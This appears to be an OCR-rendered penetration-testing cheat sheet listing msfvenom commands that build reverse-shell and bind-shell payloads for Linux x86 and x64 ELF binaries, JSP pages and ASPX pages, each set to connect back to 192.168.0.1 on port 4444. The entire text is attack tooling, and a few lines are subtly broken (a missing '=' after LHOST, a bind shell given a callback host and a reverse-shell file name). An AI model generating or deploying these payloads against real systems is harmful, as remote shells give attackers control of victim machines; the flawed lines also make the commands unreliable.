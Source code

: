 
Reverse Shell:
msfvenom \-p linux/x86/shell\_reverse\_tcp LHOST=192\.168\.0\.1 LPORT=4444 \-f elf \>rev\_shell\.elf

Bind Shell:
msfvenom \-p linux/x86/shell/bind\_tcp  LHOST=192\.168\.0\.1 \-f elf \>bind\_shell\.elf


\-\-\- 




#### 64 Bit (x64) 



Reverse Shell:
msfvenom \-p linux/x64/shell\_reverse\_tcp LHOST=192\.168\.0\.1 LPORT=4444 \-f elf \>rev\_shell\.elf

Bind Shell:
msfvenom \-p linux/x64/shell/bind\_tcp LHOST=192\.168\.0\.1 \-f elf \>rev\_shell\.elf

### Java Server Pages (.jsp) 




\-\-\- 




#### Reverse Shell 



msfvenom \-p java/jsp\_shell\_reverse\_tcp LHOST192\.168\.0\.1 LPORT=4444 \-f raw \>shell\.jsp

### Active Sever Pages Extended (aspx) 




\-\-\- 




#### Reverse Shell 



msfvenom \-p windows/shell\_reverse\_tcp LHOST=192\.168\.0\.1 LPORT=4444 \-f aspx \-o rev\_shell\.aspx

### Active Sever Pages Extended (.aspx) 




\-\-\- 



